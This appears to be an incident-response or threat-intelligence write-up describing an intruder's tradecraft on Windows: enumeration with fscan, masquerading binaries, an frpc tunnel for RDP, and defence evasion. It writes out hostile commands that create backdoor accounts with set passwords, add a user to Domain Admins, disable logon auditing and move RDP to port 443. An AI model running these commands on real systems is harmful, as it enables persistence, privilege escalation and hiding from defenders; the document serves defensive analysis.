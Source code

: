 * Using niche Chinese network enumeration tooling [fscan](https://github.com/shadow1ng/fscan)

## Execution

```
C:\Users\Administrator\Desktop\shell\svhost.exe
C:\Users\<USERNAME>\Desktop\taskhost.exe
C:\winodws\taskhost.exe
```

* Masquerading as common Windows binaries

`C:\Windows\System32\spool\drivers
\color\e8i580ehei5a3.dll` - Likely malicious DLL

## Persistence

```bash
net user IIS_USER Pass@123 /add
net user IIS_USER !@#qwe123admin /add
net user IIS_USER Aa123456@@@ /add
net user <USERNAME> Aa123456@@@q
net user nguyentuanh Tongtong@1890 /add /domain
net group "Domain Admins" nguyentuanh /add /domain
net localgroup administrators IIS_USER /add
```

* Creates multiple local/domain users with weak or common passwords.
* Adds `nguyentuanh` to Domain Admins.
* Adds `IIS_USER` to the local Administrators group.
* Ensures attackers can get back in even if initial access is cleaned up.

Scheduled task “MaintainRDP” that attempts to run the below command:

`C:\Users\IIS_USER\Documents\frpc.exe -c C:\Users\IIS_USER\Documents\frpc.toml`

This allows the adversary to tunnel RDP to their server. See “Command and Control” for more information.



## Defence Evasion

```bash
auditpol /set /category:"Logon/Logoff" /success:disable /failure:disable

auditpol /set /category:"Account Logon" /success:disable /failure:disable
```

* Disables auditing of logon events and credential use (removes visibility for defenders).

```bash
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber /t REG_DWORD /d 443 /f
```

* Changes RDP to run on port 443 (blends with HTTPS traffic).
